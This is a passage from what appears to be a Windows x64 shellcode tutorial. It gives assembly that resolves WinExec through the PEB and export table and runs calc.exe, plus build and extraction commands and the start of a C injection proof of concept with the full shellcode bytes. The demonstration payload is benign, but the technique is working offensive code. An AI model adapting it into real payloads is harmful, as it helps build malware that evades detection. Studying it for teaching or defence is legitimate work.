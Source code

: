 ```Asm
;   UINT   uCmdShow      => RDX = 0x1 = SW_SHOWNORMAL
; );
xor rcx, rcx
mul rcx                     ; RAX & RDX & RCX = 0x0
; calc.exe | String length : 8
push rax                    ; Null terminate string on stack
mov rax, 0x9A879AD19C939E9C ; not 0x9A879AD19C939E9C = "calc.exe"
not rax
;mov rax, 0x6578652e636c6163 ; exe.clac : 6578652e636c6163
push rax                    ; RSP = "calc.exe",0x0
mov rcx, rsp                ; RCX = "calc.exe",0x0
inc rdx                     ; RDX = 0x1 = SW_SHOWNORMAL
sub rsp, 0x20               ; WinExec clobbers first 0x20 bytes of stack (Overwrites our command string when proxied to CreatProcessA)
call r14                    ; Call WinExec("calc.exe", SW_HIDE)
push r15
ret 
```
Also note that, by this same system, we can load any API reference we want:
```
; Maybe playing with SuspendThread(GetCurrentThread()); could be interesting :)
; Get Sleep to r15 | String length : 10 
xor rcx, rcx
add cl, 0x5 ; size = 14
mov rax, 0x7065656C53FFFFFF; dae, fffff
shr rax, 0x18 ; F's to 0's. FF FF = 2 bytes = 16 bits = 0xF bits 
push rax 
push rcx
call getapiaddr
mov r15, rax 
mov rcx, 0xFFFFFFFFFFFFFFFF ; infinite = 00000000FFFFFFFF
shr rcx, 0x18
call r15 
```
And we can compile that into an object by using NASM. Then we can use any script or regex we want to extract the shellcode:
```
nasm.exe -fwin64 .\resolvecalc.asm
objdump.exe -d .\resolvecalc.obj | python .\sc_extract.py
```
Where [sc_extract.py can be found here](https://github.com/Neetx/Shellcode-Extractor)

And if what we want is to generate a standalone executable from it we can use:
```
gcc.exe .\resolvecalc.obj -o rcalc.exe -mconsole (or -mwindows etc)
```
Find more compiler flags [here](https://gcc.gnu.org/onlinedocs/gcc-5.1.0/gcc/x86-Windows-Options.html)

The final shellcode injection PoC will look like this:
```C
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
"\x41\x5f\x41\x57\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2\x48\x83\xec\x20\x41\xff\xd6\x41\x57\xc3";
```